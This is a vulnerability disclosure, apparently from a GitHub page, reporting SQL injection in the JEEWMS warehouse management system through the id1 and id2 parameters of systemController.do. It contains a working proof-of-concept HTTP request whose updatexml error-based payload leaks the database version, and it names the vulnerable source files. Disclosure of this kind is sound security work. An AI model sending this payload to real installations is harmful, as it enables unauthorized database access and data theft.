




### 💥 Vulnerability Report : SQL Injection in 

------

**1. Product:**

- **Name:** JEEWMS Warehouse Management System
- **Version:** latest version
- **Repository:** https://gitee.com/erzhongxmu/JEEWMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /jeewms/systemController.do`

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the id1 and id2 parameters in the/jiewms/systemControl.do interface for attack. The backend uses this parameter in dynamic HQL construction, but does not perform input filtering and parameter precompilation, resulting in SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST http://xxx/jeewms/systemController.do HTTP/1.1
Host: xxx
Cookie: JSESSIONID=093BDB6C9E298905D25C65DE49C2A5C4; JEECGINDEXSTYLE=ace; ZINDEXNUMBER=1990
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

diffDataVersion=1&id1=1&id2=1' and updatexml(1,concat('~',version(),'~'),1)='1
```

If vulnerable, the response will contain an error message such as:



This confirms that the SQL injection is successful and discloses database user information.


**6. Vulnerable Code Reference**

	src/main/java/org/jeecgframework/web/system/controller/core/SystemController.java



	src/main/java/org/jeecgframework/core/common/service/impl/CommonServiceImpl.java



```
src/main/java/org/jeecgframework/core/common/dao/impl/GenericBaseCommonDao.java
```



	The above code receives the id1 or id2 parameters input by the client and directly concatenates them into the HQL statement without any filtering or precompilation processing. Therefore, attackers can inject arbitrary HQL code through id1 or id2 parameters, leading to SQL injection vulnerabilities.


------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- https://gitee.com/erzhongxmu/JEEWMS
- 